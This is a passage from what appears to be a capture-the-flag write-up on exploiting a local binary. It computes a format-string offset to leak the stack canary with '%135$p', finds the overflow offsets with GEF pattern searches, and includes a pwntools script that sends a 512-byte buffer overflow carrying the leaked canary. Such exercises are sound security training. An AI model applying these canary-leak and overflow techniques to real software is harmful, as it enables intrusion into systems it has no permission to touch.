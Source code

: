 ```
$esp   : 0xffffd0c0  →  0x080489d2  →  "Congrats: "
$ebp   : 0xffffd2e8  →  0xffffd308  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000

0x2e8-0xc0-0xc = 540
```

For `printf`, we are using `%p` which will move 4 byte per call. Therefore the offset is

```
540 / 4 = 135
```

We can then `printf("%135$p")` and leak the canary. Also the leaked stack canary can be reused through the session.

## Preparing for buffer overflow

To control `$eip`, we need to check the following
- offset to the stack canary
- offset to `$eip`

To achieve these, two pattern searches are enough

### Offset to stack canary
```
gef➤  pattern search $ebp-0xc
[+] Searching for '64616166'/'66616164' with period=4
[+] Found at offset 512 (little-endian search) likely
```

### Offset to `$eip`

Here we're using pwntools since we're sending non-printable bytes
```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

gdbscript = """break *0x080487fe"""

io = process('./vuln')

io.sendline(b'-2495')
io.clean()
io.sendline(b'%135$p')
canary = io.recvline(keepends=False).decode('ascii').split(':')[1].strip()
log.success(f'Stack canary: {canary}')
canary = p32(int(canary, 16))

io.sendline(b'-2495')

gdb.attach(io, gdbscript)
io.sendline(b'A'*512+canary+cyclic(100))
io.interactive()
```
